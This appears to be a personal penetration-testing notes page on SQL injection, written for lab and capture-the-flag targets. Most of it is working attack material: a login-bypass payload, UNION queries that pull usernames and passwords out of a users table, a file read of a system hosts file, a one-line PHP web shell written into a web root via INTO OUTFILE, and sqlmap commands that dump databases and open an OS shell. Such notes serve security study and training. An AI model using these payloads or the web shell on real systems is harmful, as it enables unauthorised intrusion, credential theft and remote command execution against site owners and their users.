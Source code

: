```yaml
---
description: >-
  SQL Injection
title:  SQL Injection             # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection]                     # Change Templates to Writeup
tags: [exploitation, sql injection]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### SQLi Authentication Bypass
A SQL query for a normal login, then, looks like this:
```mysql
select * from users where name = 'tom' and password = 'jones';
```

If we control the value being passed in as _$user_, we can subvert the logic of the query by submitting `tom' or 1=1;#` as our username, which creates a query like this:
```mysql
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
SQLi payload:
```bash
tom' or 1=1;#
```
The pound character (#) is a comment marker in MySQL/MariaDB. It effectively removes the rest of the statement, so we're left with:
```mysql
select * from users where name = 'tom' or 1=1;
```
If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:
```mysql
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

## SQLite3
### UNION Select:
SQLite3 entrypoint:
```bash
http://192.168.186.52/debug.php?id=%27%27%20union%20select%20id,username,username,password,flag%20from%20users;--%20-
```
We need to know column and table names if we are going to extract data from them. This helps us execute a more surgical data extraction

We can add an _order by_ clause to the query for simple enumeration. This clause tells the database to sort the results of the query by the values in one or more columns. We can use column names or the column index in the query.

Let's submit the following URL:
```bash
http://10.11.0.22/debug.php?id=1 order by 1
```

This query instructs the database to sort the results based on the values in the first column. If there is at least one column in the query, the query is valid and the page will render without errors. We can submit multiple queries, incrementing the _order by_ clause each time until the query generates an error, indicating that the maximum number of columns returned by the query in question has been exceeded. Remember, a query can select all the columns in a table or just a subset of columns. We need to rely on this trial-and-error approach if we do not have access to the source query.

SQLi Payload:
```mysql
'' union select id,time,username,password,flag from users;-- -
```
SQLi Payload:
After id=:
```bash
http://10.11.0.22/debug.php?id=1 union select 1,2,3,4,5 from users;-- -
```
SQLi Payload:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

### MariaDB
The following examples use commands specific to MariaDB. However, most other databases offer similar functionality with slightly different syntax. Regardless of what database software we target, it's best to understand the platform-specific commands.

For example, to output the version of MariaDB, we can use this URL:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

This should output a "2" in the name field and the database version number in the comment field:

![Description](/assets/img/Pasted image 20220905185827.png)

Good. It looks like that's working. Next, let's output the current database user with this query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

This query reveals that the root user is being used for database queries:

![Description](/assets/img/Pasted image 20220905185937.png)

We can enumerate database tables and column structures through the _information_schema_. The information schema stores information about the database, like table and column names. We can use it to get the layout of the database so that we can craft better payloads to extract sensitive data. The query for this would look similar to the following:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

This should output a lot of data, most of which references information about the default objects in MariaDB. It will also include the table names but we will need to scroll through the output to find them.

![Description](/assets/img/Pasted image 20220905185910.png)

The _users_ table looks particularly interesting. Let’s target that table and retrieve the column names with the following query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

This outputs all the column names for the _users_ table:
![Description](/assets/img/Pasted image 20220905190646.png)

Armed with this information, we can extract the usernames and passwords from the table. We know that the original query selects three columns and the web page displays columns two and three. If we update our union payload, we can display the usernames in column two and the passwords in column three.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

This will output the database usernames in the name field and passwords in comments field:

![Description](/assets/img/Pasted image 20230331135253.png)

### SQL Injection to Code Execution
Read a file:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Using the _INTO OUTFILE_ function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE ' C:/xampp/htdocs/site2/public/backdoor.php'
```
If this succeeds, the file should be placed in the web root:

![Description](/assets/img/Pasted image 20220905191039.png)

This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. 

### SQLMAP
Test if a paramater is vulnerable:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id"
```
List databases:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" --dbs
```
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> --tables
```
List columns from a specific table:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --columns
```
Dump the database:
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --dump
```
Execute commands:
```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
SQLi with POST parameter:
```bash
sudo sqlmap -u "https://streamio.htb/login.php" --data "username=&password=" -p username --os-command
```
Examples:
[[StreamIO#^6ca422]]

### References 
[PayloadAllTheThings SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
[SQLite database structure](https://www.sqlite.org/schematab.html)